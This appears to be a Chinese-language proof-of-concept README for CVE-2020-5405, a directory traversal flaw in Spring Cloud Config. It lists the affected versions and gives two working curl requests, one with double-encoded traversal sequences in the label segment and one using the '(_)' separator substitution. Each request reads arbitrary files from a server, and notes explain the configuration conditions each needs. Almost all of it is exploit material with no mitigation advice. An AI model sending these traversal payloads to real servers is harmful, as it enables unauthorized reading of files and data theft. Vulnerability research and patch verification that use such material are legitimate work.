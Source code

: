 # CVE-2020-5405 Spring Cloud Config 目录穿越

影响版本：  
- 2.2.0 to 2.2.1  
- 2.1.0 to 2.1.6  

poc：
```
利用点1：
curl http://127.0.0.1:9988/foo/profiles/%252f..%252f..%252f..%252fUsers%252fxuanyonghao%252ftmp/aaa.xxx

读取/User/xuanyonghao/tmp/aaa.xxx文件
foo 对应 {application}
profiles 对应 {profiles}
%252f..%252f..%252f..%252fUsers%252fxuanyonghao%252ftmp 对应 {label}

todo 条件限制：
todo 1. 文件必须有后缀，也就是.txt等等。
todo 2. cloud: config: server: native: search-locations: file:///tmp/{label}，此处的目录需要有{application}或{profiles}或{label}，因为在上述触发点会对url对应段进行替换进来location，导致目录穿越，但是会限制文件后缀
```
```
利用点2：
org.springframework.cloud.config.server.resource.ResourceController#resolveLabel(java.lang.String)
利用此处把label处的(_)替换为/
curl http://127.0.0.1:9988/foo/profiles/..%28_%29Users%28_%29xuanyonghao%28_%29tmp/aaa.xxx

todo 条件限制：
todo 1. 文件必须有后缀，也就是.txt等等。
todo 2. 不像利用点1处，不需要配置{application}{profiles}{label}
```

[@threedr3am](https://threedr3am.github.io/2020/03/09/spring-cloud-confg-server目录穿越(CVE-2019-3799%20and%20CVE-2020-5405)/)